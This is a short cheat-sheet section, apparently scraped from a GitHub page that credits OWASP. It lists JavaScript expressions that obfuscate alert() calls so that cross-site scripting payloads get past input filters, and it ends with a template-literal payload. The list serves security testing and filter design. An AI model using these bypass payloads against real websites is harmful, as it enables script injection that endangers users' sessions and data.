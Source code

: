 
### Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- `(alert())`

The payload should include leading and trailing backticks:

```js
&#96;`${alert``}`&#96;
```

###### Copyright © - This cheat sheet was created from the OWASP CheatSheetSeries reference - Source :` https://cheatsheetseries.owasp.org/ `